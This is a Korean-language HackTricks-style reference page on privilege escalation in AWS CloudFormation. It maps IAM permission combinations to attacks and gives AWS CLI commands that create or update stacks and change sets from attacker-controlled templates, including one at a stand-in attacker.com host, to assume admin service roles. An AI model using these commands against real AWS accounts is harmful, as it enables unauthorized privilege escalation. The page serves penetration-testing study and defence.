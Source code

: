 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

cloudformation에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

이 권한을 가진 공격자는 **지정된 역할의 권한으로 작업을 실행하기 위해** 자신의 서버에 호스팅된 사용자 정의 템플릿으로 **CloudFormation 스택**을 작성하여 **권한을 상승시킬 수 있습니다:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
다음 페이지에는 추가 권한 **`cloudformation:DescribeStacks`**가 있는 **익스플로잇 예제**가 있습니다:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**잠재적 영향:** 지정된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

이 경우 기존의 cloudformation 스택을 **악용하여** 업데이트하고 이전 시나리오처럼 권한을 상승시킬 수 있습니다:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 지정된 cloudformation 서비스 역할에 대한 권한 상승.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

이 권한이 있지만 **`iam:PassRole`이 없는 경우**에도 **사용된 스택을 업데이트**하고 **이미 연결된 IAM 역할을 악용**할 수 있습니다. 이전 섹션에서 악용 예제를 확인하세요(업데이트 시 역할을 지정하지 마세요).

`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할에 대한 권한 상승.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

역할을 **전달하고 ChangeSet을 생성 및 실행**할 수 있는 권한이 있는 공격자는 **새 cloudformation 스택을 생성/업데이트하고 cloudformation 서비스 역할을 악용**할 수 있습니다. CreateStack 또는 UpdateStack과 마찬가지입니다.

다음 악용은 **ChangeSet 권한을 사용하여 스택을 생성하는**[ **CreateStack 하나의**](./#iam-passrole-cloudformation-createstack) 변형입니다.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한을 사용하여 **스택에 대한 `ChangeSet` 권한을 부여**하고 공격을 수행할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할에 대한 권한 상승.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

이 방법은 **IAM 역할**을 전달하지 않고 이전 방법과 유사하므로, 이미 연결된 역할을 **악용**할 수 있으며, 매개변수만 수정하면 됩니다:
```
--change-set-type UPDATE
```
**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

공격자는 이러한 권한을 악용하여 임의의 cloudformation 역할을 악용하기 위해 StackSets를 생성/업데이트할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할로의 권한 상승.

### `cloudformation:UpdateStackSet`

공격자는 passRole 권한 없이도 이 권한을 악용하여 연결된 cloudformation 역할을 악용하기 위해 StackSets를 업데이트할 수 있습니다.

**잠재적 영향:** 연결된 cloudformation 역할로의 권한 상승.

## 참조

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
